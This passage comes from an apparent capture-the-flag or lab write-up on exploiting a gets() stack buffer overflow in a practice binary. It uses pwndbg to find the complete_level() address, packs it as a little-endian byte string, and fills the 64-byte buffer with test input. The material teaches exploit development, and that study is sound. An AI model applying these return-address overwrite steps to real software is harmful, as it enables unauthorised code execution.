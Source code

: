 You can see that we are on the `gets()` function right before it gets called by the green arrow on line 22.

Grab `complete_level()` address:

```
print complete_level 
$2 = {void ()} 0x5555555551a9 <complete_level>
```

We can now see that we have the `complete_level()` <mark style="color:yellow;">function address</mark>: `0x5555555551a9`

This address is what we will place in our byte string in our exploit it little-endian format: `"\xa9\x51\x55\x55\x55\x55\x00\x00"`

You might be asking why this is important, <mark style="color:yellow;">it is because this is where we want to divert our execution to</mark>!!! Hence question four we asked above!

Let's work on finding our buffer address. Make sure to start a new fresh `pwndbg` session.

According to source code, we are creating a 64-byte buffer.&#x20;

Let's use `python3` to generate 64 A's for us:&#x20;

```
python3 -c 'print("A" *64)' > bufferTest.txt
```

The theory behind this is to pass our execution of `./stack-five` our `bufferTest.txt` as an argument.

We can now start `pwndbg` back up.

```
pwndbg> b start_level 
Breakpoint 1 at 0x11d6: file stack-four.c, line 22.
pwndbg> run
```

Now, let's examine our 60 words in our stack pointer register (rsp):

```
pwndbg> x/60wx $rsp
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption><p>This is after our buffer is filled with A's you will not see the 42's until after you do so.</p></figcaption></figure>
